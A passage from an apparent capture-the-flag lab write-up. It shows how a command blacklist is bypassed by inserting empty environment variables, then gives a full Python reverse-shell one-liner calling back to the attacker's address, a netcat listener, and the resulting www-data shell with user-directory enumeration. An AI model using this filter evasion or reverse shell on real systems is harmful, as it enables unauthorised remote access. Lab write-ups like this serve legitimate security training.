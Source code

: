 Additionally the code only checks for a whole match so something like nc1 would pass the blacklist.

##### Environment Variable Substitution for Command Filtering Evasion:

> When we insert an environment variable that doesn't exist into a command it gets replaced by nothing creating a valid command that bypasses the blacklist. Since this method works:

```
root@kali:~# c`$p`at note.txt 
```

Start the listener:

```
nc -lvp 1234
```

We can do the same with a python reverse shell, adding nonexistant environment variables to all the commands on the blacklist (python3), and replacing /bin/sh with /bin/dash:
```
py`$p`thon3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.12.29",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/dash","-i"]);'
```

### User:

When the reverse shell connects, we now have user www-data:
```
root@kali:~# nc -lvp 1234
listening on [any] 1234 ...
10.10.186.203: inverse host lookup failed: Unknown host
connect to [10.8.12.29] from (UNKNOWN) [10.10.186.203] 55556
/bin/dash: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Looking around we see there is 3 other users:

```
$ cd /home
$ ls
anurodh
apaar
aurick
$ cd anurodh
/bin/dash: 4: cd: can't cd to anurodh
```

The user flag is in the home directory of the user apaar, and while we cannot read it we find an interesting file helpline.sh:

```
$ cd apaar
$ ls
local.txt
$ cat local.txt
cat: local.txt: Permission denied
$ ls -lia
total 44
655374 drwxr-xr-x 5 apaar apaar 4096 Oct  4 14:11 .
655361 drwxr-xr-x 5 root  root  4096 Oct  3 04:28 ..
655391 -rw------- 1 apaar apaar    0 Oct  4 14:14 .bash_history
655375 -rw-r--r-- 1 apaar apaar  220 Oct  3 04:25 .bash_logout
655376 -rw-r--r-- 1 apaar apaar 3771 Oct  3 04:25 .bashrc
655389 drwx------ 2 apaar apaar 4096 Oct  3 05:20 .cache
655387 drwx------ 3 apaar apaar 4096 Oct  3 05:20 .gnupg
655380 -rwxrwxr-x 1 apaar apaar  286 Oct  4 14:11 .helpline.sh
```